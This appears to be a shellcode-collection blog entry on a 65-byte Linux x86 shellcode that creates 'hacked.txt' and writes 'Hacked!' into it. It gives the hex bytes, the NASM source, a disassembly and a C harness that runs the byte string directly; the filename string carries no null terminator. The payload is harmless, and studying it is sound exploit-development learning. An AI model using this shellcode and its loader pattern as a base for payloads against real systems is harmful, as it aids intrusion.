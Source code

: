 ```yaml
---
title:  Linux/86 Create file -> Jmp-call-pop,Stack,XOR
date: 2022-06-03 05:49:33 +0800
categories: [Shellcodes, Linux]
tags: []  
---
```


# Info

Description: `Shellcode to create a file and write data into it.`

Platform: `Linux`

Arch: `x86`

Size: `65 bytes`

Technique: `jmp-call-pop`,`Stack`, `XOR`

Shellcode : `\xeb\x30\x5b\x31\xc0\x31\xc9\xb0\x08\x66\xb9\xff\x01\xcd\x80\x89\xc3\x31\xd2\x68\x65\x64\x21\x0a\x68\x48\x61\x63\x6b\x8d\x0c\x24\xb0\x04\xb2\x08\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xcb\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x2e\x74\x78\x74`

# Execution

![shellcode](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/shellcodes/creatfilexorjmpstack.png)

# Assembly-nasm

`nasm -f elf32 -o shellcode.o shellcode.asm`

`ld -o shellcode shellcode.o`

```nasm

global _start                                                                                                                                                     
                                                                                                                                                                  
section .text                                                                                                                                                                                                                                                                                                                         
_start:                                                                                                                                                               
    jmp data                                                                                                                                                          

main_:
    pop ebx

    ; create file
    xor eax, eax
    xor ecx, ecx
    mov al, 0x8
    mov cx, 0q777
    int 0x80

    ;write data
    mov ebx, eax
    xor edx, edx
  
    push 0xA216465
    push 0x6b636148
    lea ecx, [esp]
    
    mov al, 0x4
    mov dl, 0x8
    int 0x80

    ; close file
    xor eax, eax
    mov al, 0x6
    int 0x80
    
    ; exit      
    xor ebx, ebx
    mov al, 0x1
    int 0x80                             
                                         
data:         
    call main_               
    filename: db "hacked.txt"         

```
# objdump

`objdump -d ./shellcode -M intel`

```bash

./shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       eb 30                   jmp    8048092 <data>

08048062 <main_>:
 8048062:       5b                      pop    ebx
 8048063:       31 c0                   xor    eax,eax
 8048065:       31 c9                   xor    ecx,ecx
 8048067:       b0 08                   mov    al,0x8
 8048069:       66 b9 ff 01             mov    cx,0x1ff
 804806d:       cd 80                   int    0x80
 804806f:       89 c3                   mov    ebx,eax
 8048071:       31 d2                   xor    edx,edx
 8048073:       68 65 64 21 0a          push   0xa216465
 8048078:       68 48 61 63 6b          push   0x6b636148
 804807d:       8d 0c 24                lea    ecx,[esp]
 8048080:       b0 04                   mov    al,0x4
 8048082:       b2 08                   mov    dl,0x8
 8048084:       cd 80                   int    0x80
 8048086:       31 c0                   xor    eax,eax
 8048088:       b0 06                   mov    al,0x6
 804808a:       cd 80                   int    0x80
 804808c:       31 db                   xor    ebx,ebx
 804808e:       b0 01                   mov    al,0x1
 8048090:       cd 80                   int    0x80

08048092 <data>:
 8048092:       e8 cb ff ff ff          call   8048062 <main_>

08048097 <filename>:
 8048097:       68 61 63 6b 65          push   0x656b6361
 804809c:       64 2e 74 78             fs cs je 8048118 <filename+0x81>
 80480a0:       74                      .byte 0x74

```

# C

`gcc -o shellcode shellcode.c`

```c

#include <string.h>
#include <stdio.h>

const char * shellcode = "\xeb\x30\x5b\x31\xc0\x31\xc9\xb0\x08\x66\xb9\xff\x01\xcd\x80\x89\xc3\x31\xd2\x68\x65\x64\x21\x0a\x68\x48\x61\x63\x6b\x8d\x0c\x24\xb0\x04\xb2\x08\xcd\x80\x31\xc0\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xcb\xff\xff\xff\x68\x61\x63\x6b\x65\x64\x2e\x74\x78\x74";

int main(void){
        printf("Length: %d\n", strlen(shellcode));
        (*(void(*)())shellcode)();
        return 0;
}

```

